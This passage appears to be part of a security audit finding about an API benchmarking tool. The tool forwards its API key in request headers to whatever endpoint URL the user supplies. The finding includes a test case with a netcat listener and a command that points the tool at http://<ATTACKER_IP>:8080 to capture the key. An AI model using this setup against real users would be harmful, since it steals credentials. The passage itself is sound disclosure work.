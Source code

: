     - `headers = {"api-key": self.api_key, ...}`:  The `api_key` provided during `OAIRequester` initialization is directly included in the request headers.
    - `response = await session.post(self.url, headers=headers, json=body)`: The request is sent to `self.url`, which is taken directly from user input via command-line argument, with the API key in the headers.

    ```
    User Input (Command Line): --deployment gpt-4 <MALICIOUS_ENDPOINT_URL>
        |
        V
    benchmark/loadcmd.py:_run_load()
        |
        V
    OAIRequester Initialization: OAIRequester(api_key, <MALICIOUS_ENDPOINT_URL>)
        |
        V
    benchmark/oairequester.py:call()
        |
        V
    HTTP Request to <MALICIOUS_ENDPOINT_URL> with 'api-key' header
        |
        V
    Attacker's Malicious Endpoint: Receives request and captures 'api-key' header
    ```

- **Security Test Case:**
    1. **Setup Attacker Server:** On a machine controlled by the attacker, start a simple HTTP server that listens on port 8080 and logs all incoming request headers. For example, using Python:
        ```bash
        python -m http.server 8080
        ```
        Or using `netcat`:
        ```bash
        mkfifo /tmp/req
        while true; do nc -l -p 8080 < /tmp/req | tee /tmp/req; done
        ```
    2. **Prepare Benchmarking Environment:** On a separate machine (the user's machine):
        * Set the environment variable `OPENAI_API_KEY` to a **dummy but realistic-looking API key** (e.g., `sk-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`). **Do not use a real API key.**
        * Clone the benchmarking tool repository and install the requirements.
    3. **Execute Benchmarking Tool with Malicious Endpoint:** Run the benchmarking tool's load command, replacing `<ATTACKER_IP>` with the IP address of the attacker's server:
        ```bash
        python -m benchmark.bench load --deployment gpt-4 http://<ATTACKER_IP>:8080
        ```
    4. **Analyze Attacker Server Logs:** Check the logs of the HTTP server running on the attacker's machine.
    5. **Verify API Key Exposure:** The logs should contain a POST request to `/openai/deployments/gpt-4/chat/completions`. Within the headers of this request, you should find the `api-key` header, and its value should be the dummy API key you set in step 2. This confirms that the API key is transmitted to the attacker-controlled endpoint.